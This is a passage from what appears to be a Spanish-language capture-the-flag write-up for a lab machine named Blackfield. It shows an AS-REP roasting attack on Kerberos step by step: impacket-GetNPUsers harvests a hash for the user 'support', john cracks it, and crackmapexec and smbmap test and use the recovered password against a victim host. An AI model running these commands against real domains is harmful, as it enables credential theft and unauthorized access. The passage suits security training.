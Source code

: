 ```shell
impacket-GetNPUsers BLACKFIELD.local/ -no-pass -usersfile usersUpdate.txt
```

Para saber si el usuario no tiene activada la autenticacion en `kerberos` por lo que seria vulnerable, se puede identificar cuando esta herramienta nos muestra una linea parecida a esto:

```
[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Pero con esto poca cosa podremos hacer, pero si nos muestra otra linea algo parecido a esto:

```
$krb5asrep$23$support$BLACKFIELD.local:<HASH_USER>...
```

Por lo que vemos el usuario llamado `support` no tiene establecida la autenticacion y a parte nos proporciona su hash por lo que es vulnerable a `kerberos` y a `ASREProast`.

Ahora copiaremos esa linea del hash entera desde el `$krb5asrep$23...` hasta el final del hash y lo pegaremos en un archivo llamado `hash`.

```shell
nano hash

#Dentro del nano
$krb5asrep$23$support$BLACKFIELD.local:<HASH_USER>
```

### Crackear hash de ASREProast

```shell
john --wordlist=<WORDLIST> hash
```

Si todo va bien esto nos crackeara el hash y nos mostrara la contraseña en texto plano, algo asi:

```
#00^BlackKnight ($krb5asrep$23$support$BLACKFIELD.local)
```

### Crackmapexec

Pongamos que la contraseña es esa, ahora veremos si esta contraseña es correcta para el usuario `support`:

```shell
crackmapexec smb <IP_VICTIM> -u support -p '#00^BlackKnight'
```

Y si al hacer esto nos devuelve un `[+]` seguido de lo que sea, significa que es correcta.

### smbmap Enumerar

Si con esas credenciales queremos enumerar recursos compartidos asociados a este usuario, podremos hacerlo de la siguiente forma:

```shell
smbmap -H <IP_VICTIM> -u 'support' -p '#00^BlackKnight'
```
